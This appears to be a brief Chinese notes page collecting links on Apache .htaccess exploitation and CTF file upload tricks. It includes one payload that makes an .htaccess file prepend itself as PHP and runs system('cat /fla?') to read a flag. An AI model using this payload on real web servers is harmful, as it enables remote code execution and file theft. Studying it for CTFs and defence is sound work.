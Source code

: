 # 文章
[Apache的.htaccess利用技巧 - 先知社区](https://xz.aliyun.com/t/8267)<br />[[CTF].htaccess的使用技巧总结_.htaccess ctf_Y4tacker的博客-CSDN博客](https://blog.csdn.net/solitudi/article/details/116666720)<br />[文件上传](https://lazzzaro.github.io/2020/05/06/web-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/)
### 一些Payload
```javascript
php_value auto_prepend_fil\
e .htaccess
#<?php system('cat /fla?');?>\
```
